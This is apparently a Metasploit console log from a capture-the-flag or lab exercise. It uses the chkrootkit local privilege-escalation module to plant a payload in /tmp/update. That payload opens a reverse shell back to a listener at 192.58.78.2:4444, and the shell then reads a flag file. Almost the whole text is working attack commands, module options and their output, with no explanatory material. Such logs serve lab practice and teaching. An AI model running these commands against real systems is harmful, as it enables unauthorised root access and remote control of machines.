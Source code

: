 ```
msf5 exploit(unix/local/chkrootkit) > set CHKROOTKIT /bin/chkrootkit
CHKROOTKIT => /bin/chkrootkit
msf5 exploit(unix/local/chkrootkit) > set SESSION 2
SESSION => 2
msf5 exploit(unix/local/chkrootkit) > exploit

[*] Started reverse TCP double handler on 10.1.0.13:4444 
[!] Rooting depends on the crontab (this could take a while)
[*] Payload written to /tmp/update
[*] Waiting for chkrootkit to run via cron...
^C[*] Exploit completed, but no session was created.
msf5 exploit(unix/local/chkrootkit) > show options

Module options (exploit/unix/local/chkrootkit):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   CHKROOTKIT  /bin/chkrootkit  yes       Path to chkrootkit
   SESSION     2                yes       The session to run this module on.


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.1.0.13        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/local/chkrootkit) > set LHOST 192.58.78.2
LHOST => 192.58.78.2
msf5 exploit(unix/local/chkrootkit) > exploit

[*] Started reverse TCP double handler on 192.58.78.2:4444 
[!] Rooting depends on the crontab (this could take a while)
[*] Payload written to /tmp/update
[*] Waiting for chkrootkit to run via cron...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo nfxYYsLNVAcqbthx;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "nfxYYsLNVAcqbthx\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 3 opened (192.58.78.2:4444 -> 192.58.78.3:60226) at 2023-03-24 09:27:17 +0000
[+] Deleted /tmp/update


ls
flag
cat flag
9db8bf8f483ff50857f26f9bd636bed6
```
